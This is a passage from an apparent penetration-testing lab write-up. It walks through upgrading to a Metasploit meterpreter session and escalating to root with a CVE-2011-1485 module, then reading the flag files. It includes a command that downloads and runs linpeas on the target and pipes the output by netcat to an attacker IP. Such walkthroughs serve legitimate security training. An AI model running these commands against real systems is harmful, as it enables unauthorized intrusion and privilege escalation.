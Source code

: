 ```
```
Now let's run the module and wait for it to act. The shell session has been upgraded. The meterpreter session is now under the session ID 2. We can switch to that session by typing:
```
sessions -i 2
```
### PrivEsc
Let's try to find a way to escalate privileges. On your local machine, start a netcat listener:
```
nc -lvnp 9002 | tee linpeas.out
```
Now type `shell` in meterpreter to access the exploited machine's local shell and type:
```
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh | nc 192.168.45.192 9002
```
Get out of the shell by `Ctrl+C` back to meterpreter. On your local machine, find CVEs that could be useful:
```
grep -P "CVE-[0-9]+-[0-9]+" linpeas.out
```
One of the CVEs that stood out to me was `CVE-2011-1485`. Let's get out of the meterpreter shell with `Ctrl+Z` and search for that CVE in metasploit:
```
search cve:cve-2011-1485
```
Let's choose the only result:
```
use 0
```
Let's see the options it needs:
```
options
```
Make sure all options (LHOST especially) are correct and set SESSION to your desired meterpreter session (ID: 2)
```
set SESSION 2
```
Now let's run the module:
```
run
```
And we received our new meterpreter shell as `root`! To confirm it is indeed root, you can type `shell` to enter the system's default shell from meterpreter and type `whoami`:
```
shell
whoami
```
This should return root. Now read both flags:
```
cat /home/local.txt
cat /root/proof.txt
```
Nice!
